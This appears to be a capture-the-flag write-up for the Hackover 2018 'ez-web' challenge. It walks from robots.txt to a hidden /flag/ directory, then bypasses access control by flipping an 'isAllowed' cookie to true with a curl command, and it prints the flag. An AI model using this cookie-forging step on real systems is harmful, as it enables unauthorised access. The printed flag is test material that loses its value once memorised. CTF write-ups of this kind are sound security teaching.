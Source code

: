 ## ez-web
#### challenge
````
Easy web challenge in the slimmest possible design.... namely none.

http://ez-web.ctf.hackover.de:8080

````
### idea
http://ez-web.ctf.hackover.de:8080/robots.txt
```
User-agent: * Disallow: /flag/
```

http://ez-web.ctf.hackover.de:8080/flag/
```
flag.txt
```

http://ez-web.ctf.hackover.de:8080/flag/flag.txt
```
You do not have permission to enter this Area. A mail has been sent to our Admins.
You shall be arrested shortly.
```
The webserver uses one cookie ```isAllowed=false```. Changing this to ```true``` produces:
```
hackover18{W3llD0n3,K1d.Th4tSh0tw4s1InAM1ll10n}
```

### script
```shell
curl http://ez-web.ctf.hackover.de:8080/flag/flag.txt --cookie "isAllowed=true"
```

### flag
hackover18{W3llD0n3,K1d.Th4tSh0tw4s1InAM1ll10n}
